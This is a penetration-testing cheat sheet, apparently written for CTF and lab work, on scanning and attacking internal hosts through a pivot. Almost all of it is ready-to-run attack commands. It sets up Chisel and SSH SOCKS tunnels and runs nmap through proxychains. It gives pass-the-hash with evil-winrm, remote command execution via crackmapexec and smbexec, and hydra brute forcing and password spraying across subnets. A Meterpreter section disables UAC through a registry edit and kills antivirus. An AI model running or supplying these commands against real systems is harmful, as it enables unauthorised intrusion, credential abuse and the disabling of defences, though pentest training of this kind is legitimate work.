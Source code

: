 # Scanning though a pivot    
## Contents    
- [Contents    ](#contents)
- [Subnet Enumeration Commands    ](#subnet-enumeration-commands)
- [ProxyChains    ](#proxychains)
  * [SSH Dynamic Tunnels     ](#ssh-dynamic-tunnels)
  * [Chisel   ](#chisel)
  * [Nmap scan through a dynamic SOCKS proxy  ](#nmap-scan-through-a-dynamic-socks-proxy)
  * [Web access:    ](#web-access)
  * [Use WinRM through proxychains         ](#use-winrm-through-proxychains)
  * [MSSQL Access Through Proxychains       ](#mssql-access-through-proxychains)
  * [RDP through ProxyChains       ](#rdp-through-proxychains)
  * [SMBExec Through Proxychains      ](#smbexec-through-proxychains)
  * [Brute Force a Service Through Proxychains    ](#brute-force-a-service-through-proxychains)
- [Uploading Static Binaries    ](#uploading-static-binaries)
- [Exploiting Through a Tunnel    ](#exploiting-through-a-tunnel)
  
## Subnet Enumeration Commands    
Build an IP list then scan using nmap over proxychains    
Linux  
 
    ip a   
    arp -a
    cat /etc/hosts
    cat /etc/resolv.conf  
    netstat -antp    
    for x in {1..254};do (ping -c 1 10.1.1.$x | grep "bytes from" &); done | cut -d " "    
Windows     

    ipconfig   
## ProxyChains    
Use tools like ProxyChains to scan new hosts without dropping tools to disk.     
/etc/proxychains.conf #config file. Specify SOCKS4/5 proxy    
Edit the below values in proxychains.conf or proxychains4.conf to get faster scan results (adjust based on quality of the connection and the baseline TCP response time):     

   tcp_read_time_out 1200       
   tcp_connect_time_out 800  
### SSH Dynamic Tunnels     
Set up an SSH dynamic tunnel through a bastion host to scan an internal subnet using creds:      

    ssh -D 9050 user@bastion -N -f      
### Chisel   
Set up a reverse tunnel using [Chisel](https://github.com/jpillora/chisel):    
(For CTFs you will most likely need the AMD64/x86_64 binary)       

    ./chisel server -p 8001 --reverse        #start Chisel server on attack box   
    ./chisel client 10.10.10.10:8001 R:1080:socks    #connect from to it from a client target server  
    # add 'socks5 127.0.0.1 1080 ' to /etc/proxychains.conf  
### Nmap scan through a dynamic SOCKS proxy  
Only -sT will work - can be a bit slow with an SSH tunnel so setting up a Chisel proxy might be a better option:        

    proxychains nmap 10.10.10.10 -sT -p 80, 443     
    proxychains nmap -iL ips.txt -sT -sV   
### Web access:    

    Use FoxyProxy Firefox extension and add a SOCKS5 proxy 127.0.0.1:9050 to access a site through a dynamic tunnel   
[Using Burp Through a SOCKS5 Proxy](https://dev.to/adamkatora/how-to-use-burp-suite-through-a-socks5-proxy-with-proxychains-and-chisel-507e)    

    Use Burp Upstream Proxies feature to add SOCKS5 proxy - set FoxyProxy Firefox addon to Burp proxy     
    Burp -> Settings (upper right corner) -> Network -> Connections -> SOCKS Proxy             
    Select the option 'Override options for this project only'. Options: 127.0.0.1, 1080, use SOCKS proxy     

### Use WinRM through proxychains         

    proxychains crackmapexec winrm 10.10.10.10 -u "USERNAME" -p "PASSWORD" -x "command"    
    proxychains evil-winrm -u Administrator -H 'hash' -i 10.10.10.10    #pass the hash         
### MSSQL Access Through Proxychains       
 
    proxychains sqsh -S 172.16.1.5 -U user -P password    
### RDP through ProxyChains       

    proxychains xfreerdp /u:DOMAIN\\username /p:password /v:ip      
### SMBExec Through Proxychains      
Using Impacket SMBexec.py script - often caught by AV so be careful. Smbexec has limited commands, so you will want to execute a payload to get a shell.            

    proxychains -q smbexec.py test/admin:test@192.168.1.10         
    proxychains -q /usr/share/doc/python3-impacket/examples/smbexec.py domain/user:'password'@172.16.1.5    
    
### Brute Force a Service Through Proxychains    

    proxychains -q hydra 10.10.10.10 ssh -s 22 -L users.txt -P passwords.txt -t 4     
    proxychains -q hydra -L usernames -P passwords 10.10.10.0/24 ftp       #brute force a subnet   
    proxychains -q hydra -L users –P passwords <IP> mssql   #MSSQL    
    proxychains -q hydra -C creds.txt -M ips.txt ftp    #password spray a lis
    
## Uploading Static Binaries    
Use static binaries from [here](https://github.com/ernw/static-toolbox) or [here](https://github.com/andrew-d/static-binaries)     
Upload nmap binary to a Windows target (through meterpreter and scan)      

    meter > upload nmap_binary      
    meter > shell     
    #then disable UAC  
    C:\Windows\System32\cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f     
    meter > killall av       #turn off AV
    meter > shutdown /r    
    #wait a few minutes then renew the Meterpreter session    
    meter > nmap-setup.exe /S   #install nmap silently   
Upload nmap binary to a Linux target (through meterpreter and scan)      

    meter > upload nmap . 
    chmod +x run-nmap.sh   
    ./run-nmap.sh   
    
## Exploiting Through a Tunnel    
Web exploits in Python - you probably need to proxy the traffic through a tunnel (probably socks5) using requests:    

    proxies = {
      "http": "socks5://127.0.0.1:1080",
    }

    proxies ={'http':'http://127.0.0.1:8080','https': 'https://127.0.0.1:8080'}      #burp proxy   

    r = requests.get(url, proxies=proxies)        
    